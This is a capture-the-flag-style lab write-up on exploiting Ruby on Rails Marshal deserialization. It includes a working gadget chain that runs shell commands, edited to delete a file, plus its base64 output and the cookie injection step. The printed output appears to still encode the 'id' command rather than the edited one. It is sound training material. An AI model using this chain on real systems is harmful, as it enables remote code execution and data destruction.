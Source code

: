 # Lab: Exploiting Ruby deserialization using a documented gadget chain

 This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 

**Hint**

Try searching for "ruby deserialization gadget chain" online. 

**References**

From the hint, I found the following blogpost to help me with the lab:

Blog by vakzz: [devcraft.io](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html)

# Step 1 inspect session cookie

In the target tab, I see that burp has identified a Serialized object within an HTTP message:

![image](https://user-images.githubusercontent.com/83407557/213926870-156f57ff-ade9-4b1b-b353-abcfb50ac87e.png)

Sending the cookie to decoder I can see that this is a ruby serialized object:

![image](https://user-images.githubusercontent.com/83407557/213926929-b2cbf729-73b8-4aad-95f5-e6342c967ee1.png)

If I modify the cookie, I can get an error that confirms ruby:

![image](https://user-images.githubusercontent.com/83407557/213928104-dbb4edb6-a3c5-4a40-adc9-c6187b6884b5.png)

![image](https://user-images.githubusercontent.com/83407557/213928117-d7f25bbe-7ce0-46ad-92bb-e3ab0f01a0b7.png)

![image](https://user-images.githubusercontent.com/83407557/213928148-9cd9b149-1bd9-402e-9016-8c1b1c1d2866.png)



# Step 2 Find a malicous serialized object gadget chain

I take the following code that I found from the [blog](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html):
```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "id")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload.inspect
puts Marshal.load(payload)
```

This code is running the id command, it also isn't base64 encoding the payload. I change the script to run the `rm /home/carlos/morale.txt`. From the documentation on ruby:

![image](https://user-images.githubusercontent.com/83407557/213928313-02d30992-42b8-4afe-913a-260e96605157.png)



so to make the script output a base64 encoded payload and run the correct command, I update the script with the following changes:

```ruby
require "base64"
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
#puts payload.inspect
#puts Marshal.load(payload)
```

# Step 3 Run ruby script, and inject session cookie

I run the ruby script that I just edited to create the payload:

```bash
└─$ ruby ruby_gadget_chain.rb
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06
OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBp
b286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVh
ZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRl
YnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdl
bTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2Rf
aWQ6C3N5c3RlbToNQGdpdF9zZXRJIgdpZAY7DFQ7EjoMcmVzb2x2ZQ==
```

And then inject it via the session cookie:

![image](https://user-images.githubusercontent.com/83407557/213927918-bdf9b1ce-8553-4f1c-82e7-ee740d293f94.png)

While this causes an error in the webapp, it also deletes the target file, and solves the lab:

![image](https://user-images.githubusercontent.com/83407557/213927954-11cd3e79-86e5-4f95-8705-8f554816011c.png)





